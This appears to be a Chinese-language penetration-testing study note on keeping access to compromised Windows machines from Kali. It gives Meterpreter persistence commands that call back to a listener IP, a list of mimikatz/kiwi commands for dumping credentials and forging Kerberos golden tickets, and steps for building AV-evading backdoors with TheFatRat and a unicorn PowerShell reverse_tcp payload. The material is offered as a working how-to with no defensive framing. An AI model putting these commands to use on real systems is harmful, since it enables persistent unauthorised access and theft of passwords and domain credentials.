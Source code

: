 # 权限维持

kali自带两个权限维持工具，不过都不太好用

真权限维持还得看其他工具

## `metsvc`

使用比较简单，获取会话后使用即可，这玩意太老了不好用

回去会话后`load metsvc`

设置`windows/metsvc_bind_tcp`

## `pesisence`

与上面的使用方法类似。

获取会话后`run persistence -U -i 5 -p 443 -r 192.168.1.71`

-u用户登录自动启用代理

`-i 5 `五秒回连

-p 端口

-r 监听的`ip`

## `mimikatz`/kiwi

参考[mimikazi教程 - tomyyyyy - 博客园 (cnblogs.com)](https://www.cnblogs.com/tomyyyyy/p/15182003.html)

mimikatz是一款后期开发工具,很强大，现在基本被wiki代替

在获取system权限load wiki

查看选项 help wiki

`creds_all：列举所有凭据//明文密码
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码`



## `Fatrat`使用

参考[kali-TheFatRat木马生成工具安装及简单使用_榜下无名的博客-CSDN博客_木马生成器](https://blog.csdn.net/qq_35258210/article/details/113783676)

[内网渗透神器（Mimikatz`）——使用教程_W小哥1的博客-CSDN博客_mimikatz](https://blog.csdn.net/weixin_40412037/article/details/113348310)

### 下载

需要在[GitHub - screetsec/TheFatRat: Thefatrat a massive exploiting tool : Easy tool to generate backdoor and easy tool to post exploitation attack like browser attack and etc . This tool compiles a malware with popular payload and then the compiled malware can be execute on windows, android, mac . The malware that created with this tool also have an ability to bypass most AV software protection .](https://github.com/Screetsec/TheFatRat)

安装将文件放在kali的文件夹解压

### 权限

给`fatrat/setup.sh`可执行权限

## 安装

运行`setup.sh`

一致向下执行

### 安装兼容包

`apt install mingw-w64`

生成木马



生成bat文件需要导入unicorn，下载[GitHub - trustedsec/unicorn: Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18.](https://github.com/trustedsec/unicorn)

解压后使用`python unicorn.py windows/meterpreter/reverse_tcp`生成`powershell_attack.txt`和`unicorn.rc`两个文件，复制到`fatrat`文件下。

写个shell脚本自动执行复制及运行命令

`cp /test01/unicorn-master/powershell_attack.txt /test01/TheFatRat-master
cp /test01/unicorn-master/unicorn.rc /test01/TheFatRat-master
./fatrat`

监听端payload exe文件需要x64,bat不需要。




